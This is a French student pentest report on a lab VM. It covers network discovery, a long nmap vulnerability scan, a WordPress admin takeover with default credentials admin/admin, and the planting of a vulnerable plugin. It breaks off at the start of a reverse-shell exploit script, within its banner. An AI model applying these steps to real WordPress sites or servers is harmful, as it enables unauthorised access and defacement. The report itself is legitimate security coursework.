








# SAÉ Pentest

Brewal GUYON & Nathan COUQUEBERG


Dans cette SAÉ (Situation d'Apprentissage et d'Évaluation), nous avons pour objectif de réaliser le Pentest d'une cible avec pour seule information le fait qu'elle soit dans notre réseau local.

Cet audit est composé de 2 parties : la première est l'accomplissement de 5 objectifs qui seront détaillés plus bas. La deuxième se concentre sur l'écriture d'un rapport contenant 3 vulnérabilitées par service exposé.

## Partie 1 : Pentest blackbox

### Rappel des 5 objectifs :

Comme dit plus haut, nous avons 5 objectifs à réaliser. Nous devons chercher à savoir si un attaquant pourrait :

1. Accéder aux fichiers du système d'exploitation ?

2. Usurper l'identité du compte administrateur de ce système ?

3. Bloquer l'accès de l'administrateur à ce système ?

4. Modifier le contenu web qui sera mis en production ?

5. Bloquer l'accès de l'administrateur à l'outil de conception du site web ?

Pour ce faire, nous allons utiliser une machine virtuelle sous la distribution Kali Linux.

### Reconnaissance

La machine cible étant dans le même réseau local, il est assez simple de la trouver avec la commande `netdiscover`.

Pour cela il est nécessaire de récupérer les informations IP de notre machine.


On peut voir que notre numéro de réseau est `192.168.58.0/24` sur l'interface `eth0`. On exécute donc la commande suivante :

```console
sudo netdiscover -i eth0 -r 192.168.58.0/24
```


Les ip en .1, .2 et .254 étant réservées a VMWare, la machine à attaquer est donc celle dont l'adresse IP se termine par .129.

Maintenant que l'IP a été trouvée, il est temps de regarder quels services sont exposés. Pour cela rien de plus simple, il suffit d'utiliser le programme `nmap`.

Pour ce faire, on utilise la commande :

```console
nmap 192.168.58.129 -sV -vv --script vuln
```

Elle permet avec l'argument `-sV` de chercher la version des services, avec l'argument `-vv` d'afficher le plus d'informations possibles en sortie (verbose) et d'exécuter le script `vuln` qui permet d'aller directement chercher les vulnérabiltés dans une base de données en ligne en fonction de la version des services.

Voici la partie intéressante de la sortie :

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
| vulners: 
|   cpe:/a:proftpd:proftpd:1.3.3c: 
|       SAINT:FD1752E124A72FD3A26EEB9B315E8382  10.0    https://vulners.com/saint/SAINT:FD1752E124A72FD3A26EEB9B315E8382        *EXPLOIT*
|       SAINT:ECC52DD75C7865AF72D358DC03E39270  10.0    https://vulners.com/saint/SAINT:ECC52DD75C7865AF72D358DC03E39270        *EXPLOIT*
|       SAINT:C38482A29286C4F6E5C4BD19DFFEC245  10.0    https://vulners.com/saint/SAINT:C38482A29286C4F6E5C4BD19DFFEC245        *EXPLOIT*
|       SAINT:950EB68D408A40399926A4CCAD3CC62E  10.0    https://vulners.com/saint/SAINT:950EB68D408A40399926A4CCAD3CC62E        *EXPLOIT*
|       SAINT:63FB77B9136D48259E4F0D4CDA35E957  10.0    https://vulners.com/saint/SAINT:63FB77B9136D48259E4F0D4CDA35E957        *EXPLOIT*
|       SAINT:54FCA613A72A46139DD6F86DF77D354A  10.0    https://vulners.com/saint/SAINT:54FCA613A72A46139DD6F86DF77D354A        *EXPLOIT*
|       SAINT:1B08F4664C428B180EEC9617B41D9A2C  10.0    https://vulners.com/saint/SAINT:1B08F4664C428B180EEC9617B41D9A2C        *EXPLOIT*
|       SAINT:0D292D8F05ADFBE8F747F01E40BAF2AF  10.0    https://vulners.com/saint/SAINT:0D292D8F05ADFBE8F747F01E40BAF2AF        *EXPLOIT*
|       PROFTPD_MOD_COPY        10.0    https://vulners.com/canvas/PROFTPD_MOD_COPY     *EXPLOIT*
|       PACKETSTORM:162777      10.0    https://vulners.com/packetstorm/PACKETSTORM:162777      *EXPLOIT*
|       PACKETSTORM:132218      10.0    https://vulners.com/packetstorm/PACKETSTORM:132218      *EXPLOIT*
|       PACKETSTORM:131567      10.0    https://vulners.com/packetstorm/PACKETSTORM:131567      *EXPLOIT*
|       PACKETSTORM:131555      10.0    https://vulners.com/packetstorm/PACKETSTORM:131555      *EXPLOIT*
|       PACKETSTORM:131505      10.0    https://vulners.com/packetstorm/PACKETSTORM:131505      *EXPLOIT*
|       EDB-ID:49908    10.0    https://vulners.com/exploitdb/EDB-ID:49908      *EXPLOIT*
|       CVE-2010-4221   10.0    https://vulners.com/cve/CVE-2010-4221
|       1337DAY-ID-36298        10.0    https://vulners.com/zdt/1337DAY-ID-36298        *EXPLOIT*
|       1337DAY-ID-23720        10.0    https://vulners.com/zdt/1337DAY-ID-23720        *EXPLOIT*
|       1337DAY-ID-23544        10.0    https://vulners.com/zdt/1337DAY-ID-23544        *EXPLOIT*
|       SSV:26016       9.0     https://vulners.com/seebug/SSV:26016    *EXPLOIT*
|       SSV:24282       9.0     https://vulners.com/seebug/SSV:24282    *EXPLOIT*
|       CVE-2011-4130   9.0     https://vulners.com/cve/CVE-2011-4130
|       SSV:96525       7.5     https://vulners.com/seebug/SSV:96525    *EXPLOIT*
|       CVE-2019-12815  7.5     https://vulners.com/cve/CVE-2019-12815
|       739FE495-4675-5A2A-BB93-EEF94AC07632    7.5     https://vulners.com/githubexploit/739FE495-4675-5A2A-BB93-EEF94AC07632  *EXPLOIT*
|       SSV:20226       7.1     https://vulners.com/seebug/SSV:20226    *EXPLOIT*
|       PACKETSTORM:95517       7.1     https://vulners.com/packetstorm/PACKETSTORM:95517       *EXPLOIT*
|       CVE-2010-3867   7.1     https://vulners.com/cve/CVE-2010-3867
|       SSV:12447       6.8     https://vulners.com/seebug/SSV:12447    *EXPLOIT*
|       SSV:11950       6.8     https://vulners.com/seebug/SSV:11950    *EXPLOIT*
|       EDB-ID:33128    6.8     https://vulners.com/exploitdb/EDB-ID:33128      *EXPLOIT*
|       CVE-2010-4652   6.8     https://vulners.com/cve/CVE-2010-4652
|       SSV:12523       5.8     https://vulners.com/seebug/SSV:12523    *EXPLOIT*
|       CVE-2009-3639   5.8     https://vulners.com/cve/CVE-2009-3639
|       CVE-2020-9272   5.0     https://vulners.com/cve/CVE-2020-9272
|       CVE-2019-19272  5.0     https://vulners.com/cve/CVE-2019-19272
|       CVE-2019-19271  5.0     https://vulners.com/cve/CVE-2019-19271
|       CVE-2019-19270  5.0     https://vulners.com/cve/CVE-2019-19270
|       CVE-2019-18217  5.0     https://vulners.com/cve/CVE-2019-18217
|       CVE-2016-3125   5.0     https://vulners.com/cve/CVE-2016-3125
|       CVE-2011-1137   5.0     https://vulners.com/cve/CVE-2011-1137
|       CVE-2017-7418   2.1     https://vulners.com/cve/CVE-2017-7418
|       CVE-2012-6095   1.2     https://vulners.com/cve/CVE-2012-6095
|_      CVE-2021-46854  0.0     https://vulners.com/cve/CVE-2021-46854
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.2p2: 
|       PACKETSTORM:140070      7.8     https://vulners.com/packetstorm/PACKETSTORM:140070      *EXPLOIT*
|       EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    7.8     https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    *EXPLOIT*
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       1337DAY-ID-26494        7.8     https://vulners.com/zdt/1337DAY-ID-26494        *EXPLOIT*
|       SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
|       PRION:CVE-2023-35784    7.5     https://vulners.com/prion/PRION:CVE-2023-35784
|       PACKETSTORM:173661      7.5     https://vulners.com/packetstorm/PACKETSTORM:173661      *EXPLOIT*
|       CVE-2023-35784  7.5     https://vulners.com/cve/CVE-2023-35784
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
|       SSV:92582       7.2     https://vulners.com/seebug/SSV:92582    *EXPLOIT*
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       SSV:92580       6.9     https://vulners.com/seebug/SSV:92580    *EXPLOIT*
|       CVE-2016-10010  6.9     https://vulners.com/cve/CVE-2016-10010
|       1337DAY-ID-26577        6.9     https://vulners.com/zdt/1337DAY-ID-26577        *EXPLOIT*
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSV:91041       5.5     https://vulners.com/seebug/SSV:91041    *EXPLOIT*
|       PACKETSTORM:140019      5.5     https://vulners.com/packetstorm/PACKETSTORM:140019      *EXPLOIT*
|       PACKETSTORM:136234      5.5     https://vulners.com/packetstorm/PACKETSTORM:136234      *EXPLOIT*
|       EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    5.5     https://vulners.com/exploitpack/EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    *EXPLOIT*
|       EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    5.5     https://vulners.com/exploitpack/EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    *EXPLOIT*
|       EXPLOITPACK:1902C998CBF9154396911926B4C3B330    5.5     https://vulners.com/exploitpack/EXPLOITPACK:1902C998CBF9154396911926B4C3B330    *EXPLOIT*
|       EDB-ID:40858    5.5     https://vulners.com/exploitdb/EDB-ID:40858      *EXPLOIT*
|       EDB-ID:40119    5.5     https://vulners.com/exploitdb/EDB-ID:40119      *EXPLOIT*
|       EDB-ID:39569    5.5     https://vulners.com/exploitdb/EDB-ID:39569      *EXPLOIT*
|       CVE-2016-3115   5.5     https://vulners.com/cve/CVE-2016-3115
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PRION:CVE-2023-27567    5.0     https://vulners.com/prion/PRION:CVE-2023-27567
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       CVE-2016-10708  5.0     https://vulners.com/cve/CVE-2016-10708
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       PRION:CVE-2023-29323    4.3     https://vulners.com/prion/PRION:CVE-2023-29323
|       EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    *EXPLOIT*
|       EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    *EXPLOIT*
|       EDB-ID:40136    4.3     https://vulners.com/exploitdb/EDB-ID:40136      *EXPLOIT*
|       EDB-ID:40113    4.3     https://vulners.com/exploitdb/EDB-ID:40113      *EXPLOIT*
|       CVE-2023-29323  4.3     https://vulners.com/cve/CVE-2023-29323
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-6210   4.3     https://vulners.com/cve/CVE-2016-6210
|       1337DAY-ID-25440        4.3     https://vulners.com/zdt/1337DAY-ID-25440        *EXPLOIT*
|       1337DAY-ID-25438        4.3     https://vulners.com/zdt/1337DAY-ID-25438        *EXPLOIT*
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       SSV:92581       2.1     https://vulners.com/seebug/SSV:92581    *EXPLOIT*
|       CVE-2016-10011  2.1     https://vulners.com/cve/CVE-2016-10011
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
|       PACKETSTORM:138006      0.0     https://vulners.com/packetstorm/PACKETSTORM:138006      *EXPLOIT*
|       PACKETSTORM:137942      0.0     https://vulners.com/packetstorm/PACKETSTORM:137942      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.18: 
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9  *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2  *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B  *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE  *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    *EXPLOIT*
|       EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355    *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40909    5.0     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
|       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|_      PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|_  /secret/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut voir qu'il y a 3 services exposés, FTP (port TCP 21), SSH (port TCP 22) et HTTP (port TCP 80).

D'après le rapport, il semble y avoir des failles conséquentes sur le service ProFTPD 1.3.3c (CVSS de 10.0), mais nous n'allons pas nous y attarder. Nous avons plutôt choisi de chercher du côté du serveur Web.

Sur celui-ci, on trouve une installation de Apache qui parait être vierge.


Cependant, une ligne de Nmap semble dire le contraire : 
```
/secret/: Potentially interesting folder
```

Si on navigue dans `http://192.168.58.129/secret/`, quelque chose d'intéressant apparait.



Après avoir un peu regardé la page d'accueil, il s'avère que le site est fait avec wordpress. Par ailleurs, le propriétaire de la machine n'a pas touché à l'apparence du site car c'est celui par défaut.


### Exploitation du site web


Comme pour tout les sites wordpress, il y a dans le dossier `/wp-admin/` des pages accessibles uniquement par l'administrateur pour modifier le site web.



Malheureusement, la page est protégée par mot de passe. Comme l'apparence du site n'a pas été changée, le nom d'utilisateur de l'administrateur n'a pas non plus dû être changé, ce doit donc sûrement être `admin`.

À partir d'ici, nous avons essayé bêtement de rentrer le couple d'identifiant admin/admin, et... ça a fonctionné.

Si nous essayons de modifier la page d'accueil



Le site change de 


à



> **Le point 4, qui consistait à pouvoir modifier le site web est donc validé**

De la même façon, pour bloquer l'accès à la modification du site  web, il suffit de modifier le mot de passe de l'admin dans la configuration du profil.


Ce qui, après validation, prend bien effet



> **Le point 5 est donc validé car l'accès administrateur a été bloqué**

### D'administrateur du site web à reverse shell

Maintenant que nous avons accès au tableau d'administration, cela ouvre un large panel de possibilités pour essayer d'avoir directement accès a la machine cible.

Pour y arriver, un exploit connu de wordpress est l'injection d'un module malveillant ou vulnérable. Pour cela, il suffit d'utiliser le module reflex-gallery

Le module est disponible juste ici https://www.exploit-db.com/apps/ad33afbc2f2e22877b202d986acd43bd-reflex-gallery.zip

Pour l'installer, il suffit d'aller dans `Plugins` > `Add New`


Puis d'upload le plugin et de l'activer



Une fois le plugin ajouté, il ne reste plus qu'à l'exploiter. Pour cela, nous avons récuperé le script de ce repo github https://github.com/D3Ext/Reflex-Gallery-Exploit et l'avons amélioré car il ne marchait que pour le mois 08/2022. Vous pouvez retouver le script dans le fichier exploit.py.

```py
# Libraries
import requests
import sys
import argparse
import os
import re
from time import sleep
from base64 import b64encode

# Colors
class c:
    PURPLE = '\033[95m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
    UNDERLINE = '\033[4m'


def banniere():
    banniere = """⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣤⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⠶⠛⠉⠀⠀⠀⠀⠉⠙⠶⠦⣀⡀⠀⠀⠀⣀⣠⠴⠶⠞⠛⠛⠶⠤⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡴⠛⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⠲⣞⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠈⢳⡄⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠞⠁⠀⠀⠀⠀⠀⣀⣠⡤⠤⠤⠤⣤⣄⡀⠀⠀⠹⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢳⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣴⠃⠀⠀⠀⠀⢠⠶⠛⠉⠁⠀⠀⠀⠀⠀⠈⠙⠓⠦⢤⣿⠤⠖⠒⠒⠒⠒⠒⠚⠒⠓⠲⠾⢧⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣰⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣤⡤⠤⠤⠤⠤⣭⣳⣤⡀⠀⠀⠀⢀⣀⣀⣠⣤⣤⣤⣬⣙⣳⣦⣄⠀⠀
⠀⠀⠀⠀⢀⣀⣿⣷⣦⣤⣄⣀⡀⠀⣀⣀⣤⣤⣤⣶⣯⣭⣥⣶⣶⣯⣭⣽⣶⣶⣬⣭⣙⣴⢖⣫⣭⣿⣿⣶⣶⣶⣶⣶⣾⣿⣿⣿⣷⣤
⠀⠀⠀⣤⠛⢹⡇⠈⠉⠙⠻⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⣿⡿⣿⣿⣿⣿
⠀⢀⡞⠁⠀⠸⠇⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣽⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡣⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⣿⣿⣿
⢀⡾⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡁⢹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⡞⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⣿⣿⣿⣿⣿⣿⡿⠛⠉⠉⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠻⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠟⠁⠀⠀⣀⠀⠙⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠿
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⣉⣩⡭⠿⠛⠉⠁⠀⠀⠀⠀⠀⠙⠛⢿⡒⠛⠛⠛⠋⠻⡭⡉⠁⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠹⣦⠀⠀⠀
